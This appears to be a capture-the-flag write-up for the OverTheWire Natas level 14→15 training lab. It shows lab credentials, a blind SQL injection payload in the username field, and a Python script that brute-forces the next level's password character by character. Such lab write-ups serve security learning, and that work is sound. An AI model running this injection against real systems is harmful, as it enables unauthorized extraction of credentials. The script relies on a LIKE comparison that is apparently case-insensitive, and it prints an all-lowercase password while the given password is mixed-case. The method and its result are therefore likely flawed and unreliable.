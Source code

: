 # Level 14 → Level 15

## Details
Username: `natas15`<br />
Password: `TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB`<br />
URL:      http://natas15.natas.labs.overthewire.org

## Solution
<img src="./0.png"></img>

<img src="./1.png"></img>

We can edit the query by entering the username. But no matter what we inject the only output will be an indication of the user's existence. Therefore we can try to "guess" the password, and if the output is "existing user" then it is correct.

Username: `natas16`:

<img src="./2.png"></img>
<img src="./3.png"></img>

We will check that the length of the password is indeed 32 characters, like all the passwords so far.<br />
Username: `natas16" and password like "________________________________";#`
<img src="./4.png"></img>
<img src="./5.png"></img>

Now we will compile a script that Brute Force the password, character by character:

```python
from requests import post
from string import digits, ascii_letters

URL = "http://natas15.natas.labs.overthewire.org/index.php"

# After looking at the sent packet and some trial and error, these are the essential headers:
HEADERS ={}
HEADERS["Authorization"] = \
"Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"

# The template for the blind sql injection
DATA = "username=natas16\" and password like \"________________________________\";#"

password = ""

while(len(password) < 32):
    index = DATA.find("_")
    for char in digits + ascii_letters:
        DATA = DATA[:index] + char + DATA[index+1:]
        response = post(url=URL, headers=HEADERS, data=DATA)
        if "This user exists" in response.text:
            password += char
            print("password: "+ password.ljust(32, "_"))
            break
```

Output is:

<img src="./6.png"></img>


## Password for the next level:
```
trd7izrd5gatjj9pkpeuaolfejhqj32v
```
